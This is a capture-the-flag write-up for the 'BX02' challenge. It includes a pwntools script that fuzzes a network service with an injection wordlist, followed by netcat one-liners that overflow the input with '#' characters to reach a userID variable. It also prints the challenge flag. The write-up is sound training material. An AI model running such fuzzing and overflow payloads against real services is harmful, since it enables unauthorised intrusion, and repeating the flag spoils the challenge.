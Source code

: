 # BX02
## BRIEFING
Access the network service at url: `cfta-bx02.allyourbases.co` port: `8013` and find a way to get the flag.

## Solution 

Upon initial connection to the target we get the following message:

```console
root@osboxes:~/Downloads/bx02# nc cfta-bx02.allyourbases.co 8013
Come Fuzz Me Bro.
DEBUG: Waiting 100ms
```

If he hit enter we get a message saying that the input length was too large and the connection closes:

```console
root@osboxes:~/Downloads/bx02# nc cfta-bx02.allyourbases.co 8013
Come Fuzz Me Bro.
DEBUG: Waiting 100ms

DEBUG: Input length too large. 
```

Taking the hint, I went ahead and fuzzed the server. Kali has a handful of fuzzing scripts available in the `/usr/share/wordlists/wfuzz/` directory. I tried several of them and eventually had success with the `All_attack.txt` list.

The script I made for fuzzing is below:

```py
from pwn import *

HOST = 'cfta-bx02.allyourbases.co'
PORT = 8013

with open('/usr/share/wordlists/wfuzz/Injections/All_attack.txt') as f:
    lines = f.readlines()
    for line in lines:
        line = line.strip()
        sh = remote(HOST,PORT)
        sh.sendlineafter('Waiting 100ms\n',line)
        result = sh.recvline()
        if 'too large' not in result:
            print result
            print line
        sh.close()
```

And here is the output where I identified `#` as a valid character. 


```console
[+] Opening connection to cfta-bx02.allyourbases.co on port 8013: Done
[*] Closed connection to cfta-bx02.allyourbases.co port 8013
[+] Opening connection to cfta-bx02.allyourbases.co on port 8013: Done
[*] Closed connection to cfta-bx02.allyourbases.co port 8013
[+] Opening connection to cfta-bx02.allyourbases.co on port 8013: Done
DEBUG: Waiting 100ms

#
```

If we manually enter `#` we find that the connection stays open and re-prompts the `DEBUG: Waiting 100ms` message.

```console
root@osboxes:~/Downloads/bx02# nc cfta-bx02.allyourbases.co 8013
Come Fuzz Me Bro.
DEBUG: Waiting 100ms
#
DEBUG: Waiting 100ms

```

At this point I decided to send a very large input consisting entirely of `#`'s. I started with 500 and got the following output:

```console
root@osboxes:~/Downloads/bx02# python -c 'print "#" * 500' | nc cfta-bx02.allyourbases.co 8013
Come Fuzz Me Bro.
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
```
At this point I wasn't sure if I was headed in the right correction, but I kept playing around and honing in the number of `#`'s. I did 1000 next and got even more `DEBUG: Waiting 100ms` messages. Eventually I went up to 2500 and got the following output:

```console
root@osboxes:~/Downloads/bx02# python -c 'print "#" * 2500' | nc cfta-bx02.allyourbases.co 8013
Come Fuzz Me Bro.
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Input length too large.
ERROR: Expected userID Variable of 1.
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
```

This looked promising and I began honing in on the number of `#`'s needed to get right up to the `ERROR: Expected userID Variable of 1.` message. It turned out that approximately 2000 `#`s were needed. Then, since the value of `1` was expected, I added 10 `1`'s to the end of 2000 `#`'s and this yielded the flag:

```console
root@osboxes:~/Downloads/bx02# python -c 'print "#" * 2000 + "1" * 10' | nc cfta-bx02.allyourbases.co 8013
Come Fuzz Me Bro.
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Waiting 100ms
DEBUG: Input length too large.

Flag: ThIsOneIsAbITFuZZy-6y
DEBUG: Waiting 100ms
```

The flag is **ThIsOneIsAbITFuZZy-6y**.
